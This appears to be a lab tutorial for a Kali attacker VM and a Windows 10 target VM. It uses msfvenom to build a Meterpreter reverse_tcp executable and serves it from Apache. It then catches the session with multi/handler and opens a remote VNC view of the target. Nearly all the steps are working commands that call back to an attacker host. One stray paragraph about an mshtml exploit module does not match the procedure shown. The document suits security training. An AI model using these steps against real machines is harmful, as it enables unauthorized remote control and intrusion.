 # Exploiting Client Side Vulnerabilities and Establishing a VNC session
Attackers use client-side vulnerabilities to exploit unpatched software, thereby attaining access to the machine on which the software is installed.

VNC enables attackers to remotely access and control computers targeted from another computer or mobile device, wherever they are in the world. At the same time, it is also used by administrator and organizations throughout every industry sector for a range of different scenarios and use cases, including providing IT desktop support to colleagues and friends, and accessing systems and services on the move.

### Objectives
* How to exploit client-side vulnerabilities and establish a VNC session.

### Requisites
* Kali Linux virtual machine (Attacker).
* Windows 10 virtual machine (Target).


## Launch Metasploit Framework

Launch Kali Linux and open the Terminal window and type:

`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=10.0.2.42 LPORT=444 -o /root/Desktop/Test.exe`

**Note**: LHOST is the IP address of your Kali machine.

This command will generate Test.exe, a malicious file on Desktop as shown in below:

```
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /root/Desktop/Test.exe
```

You can also try this by using the `msfconsole`. 

To check the malicious file that you created, go to https://www.virustotal.com and upload the file.

![VirusTotal](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/06ada511ea568155b68bc18ea6255fe31007d217/virustotal.png)
VirusTotal aggregates many antivirus products and online scan engines to check for viruses that the user's own antivirus may have missed, or to verify against any false positives.

## Share the malicious file on target
Now create a directory to share this file with the target machine provide the permissions and copy the file from Desktop to shared location:

Create a directory on html folder:<br>
`mkdir /var/www/html/share/`<br>

Change the mode for the share to **755**:<br>
`chmod -R 755 /var/www/html/share/`<br>

Change the ownership of that folder to **www-data**:<br>
`chown -R www-data:www-data /var/www/html/share/`

Now copy the malicious file to the shared location:<br>
`cp /root/Desktop/Test.exe /var/www/html/share/`

Next, start the apache service:<br>
`service apache2 start`


Open a new terminal window and type `msfconsole` to launch Metasploit Framework.

Use the `multi/handler` to capture the session.

![msfconsole](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/3f818aa7902d7d0c864577c885b2a16c1b5caa33/msfconsole.png)

In msfconsole:
1. `use multi/handler`
2. `set payload windows/meterpreter/reverse_tcp`
3. set the `LHOST` to your Kali IP address and `LPORT` to 444
4. `run` the exploit

#### Reverse TCP
A reverse shell (also known as a connect-back) is the exact opposite: it requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally the attacker receives the shell.

This module exploits memory corruption vulnerability within Microsoft's HTML engine (mshtml). When parsing an HTML page containing a recursive CSS import, a C++ object is deleted and later reused.

## On Windows machine
Remember to deactivate all Windows Defender parameters.

Launch the browser and type the IP address of the Kali machine that are running apache webserver and download the **Test.exe**. 

In my case is `http://10.0.2.42/share`

![Test.Exe](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/48fe2ec77ebde90c0febb208704e4172b60b4428/testexe.png)

Double click  **Test.exe**.<br>
You will get a Security Warning window, click **run**.

![Sec Warning](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/87089f69512685222b66d10ab10832f0382538f9/securityWarningWin.png)

## Meterpreter 
Switch to Kali Linux machine and check if there is any session that are opened in the Meterpreter Shell as shown below:

![meterpreter](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/87089f69512685222b66d10ab10832f0382538f9/meterpreter.png)

Meterpreter is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code.

Useful commands:
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

About Meterpreter:
https://doubleoctopus.com/security-wiki/threats-and-tools/meterpreter/

## Remote View in Kali Linux
Now, you can create a VNC session on Windows 10 machine remotely by typing:

`run vnc`

This command will open a VNC session of the Target's machine as shown below:

![vnc](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/78278f30571b9988b108c92defcd91134886c404/vnc.png)

Useful links:

* [Metasploit Cheat Sheet - SANS](https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)
* [Meterpreter Cheat Sheet](https://www.blueliv.com/downloads/Meterpreter_cheat_sheet_v0.1.pdf)